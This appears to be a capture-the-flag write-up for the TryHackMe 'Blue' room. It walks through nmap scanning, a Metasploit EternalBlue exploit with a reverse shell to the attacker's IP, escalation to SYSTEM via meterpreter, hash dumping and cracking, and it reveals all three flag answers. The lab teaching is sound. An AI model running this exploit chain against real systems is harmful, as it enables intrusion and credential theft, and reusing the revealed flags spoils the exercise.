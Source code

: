 # Blue

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Blue](https://tryhackme.com/room/blue)
>
> ![](.gitbook/assets/blue.jpg)
>
> **Description**
>
> 📝 *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> **Target IP**
>
> 🎯 `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```



<details>

<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`



<img src=".gitbook/assets/image-20230316143237356.png" alt="" data-size="original">

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```






<details>

<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`



<img src=".gitbook/assets/image-20230316143502259.png" alt="" data-size="original">

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```



<details>

<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`



<img src=".gitbook/assets/image-20230316143807868.png" alt="" data-size="original">

</details>


***
